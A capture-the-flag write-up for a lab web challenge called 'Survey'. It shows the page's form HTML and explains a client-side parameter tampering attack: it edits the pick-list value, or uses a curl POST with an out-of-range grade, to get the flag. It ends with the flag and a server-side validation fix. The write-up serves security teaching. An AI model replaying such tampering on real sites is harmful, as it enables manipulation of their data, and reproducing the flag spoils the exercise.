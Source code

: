 # # <span style="text-decoration: underline">Survey</span>

##### Tags : `html`, `source code`, `form` , `POST`
##### Server ip : `192.168.1.23 `
____

## <span style="text-decoration: underline">problem</span>
When we go to the `SURVEY` tab we see the following content
![survey index](resources/images/survey_index.png)

Here we can see a table where user can select a number between 1-10 by clicking the value on a `pick list` in the **Grade** column. When we select a value from the `pick list` the page get refreshed and nothing happens. When we see the source code of the table we can see the following

```html
<table width="50%" style="margin-left: auto; margin-right: auto;">
<caption><p>Make your choice</caption><br /><br /></p>
	<tbody>
		<tr bgcolor="Gray">
			<td align="center">Grade</td>
			<td align="center">Average</td>
			<td align="center">Subject</td>
			<td align="center">Nb of vote(<em>indicative</em>)</td>
		</tr>
			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
4214.23			</td>
			<td align="center">

Laurie			</td>
			<td align="center">
4260			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="3">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
5.23529			</td>
			<td align="center">

Mathieu			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="4">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
8.64707			</td>
			<td align="center">

Thor			</td>
			<td align="center">
17			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="5">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
9.1			</td>
			<td align="center">

Ly			</td>
			<td align="center">
666			</td>
		</tr>

			<tr bgcolor="Silver">
				<td align="center">
				<form action="#" method="post">
					<input type="hidden" name="sujet" value="6">
					<SELECT name="valeur" onChange='javascript:this.form.submit();'>
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="10">10</option>
					</SELECT>
				</form>
			</td>
			<td align="center">
6.969			</td>
			<td align="center">

Zaz			</td>
			<td align="center">
69			</td>
		</tr>
</table>
```
Here we can see two interesting things:

01. Each **Grade**  input is inside a form that does a `POST` request to the current page
02. When we select a value a `java script` function execute the `submit` function thus a submot request is sent.

!> The `hidden` input is not really importent for us.

## <span style="text-decoration: underline">Solution</span>

### Changing the value of the input field
Just like for the [recover](/recover?id=changing-the-value-of-the-input-field) challenge we can change the `html` `value` of one onf the `pick list` element (the list from 1-10) and select that value as our **Grade**
![survey modified value](resources/images/survey_index_modified_value.png)

And we get the following result
![survey flag](resources/images/survey_flag.png)

### Using [`Curl`](https://curl.se/)

Ofcorse the same request could be sent using `Curl` from our terminal and it would look like this

```bash
$ curl -s -d 'sujet=2&valeur=11' -X POST 'http://192.168.1.23/?page=survey'  | grep flag 
<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
```

# How to avoid the problem
One way to avoid this problem would be a serverside checking of the data as we can control what we are sending.

# Flag

```text
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```
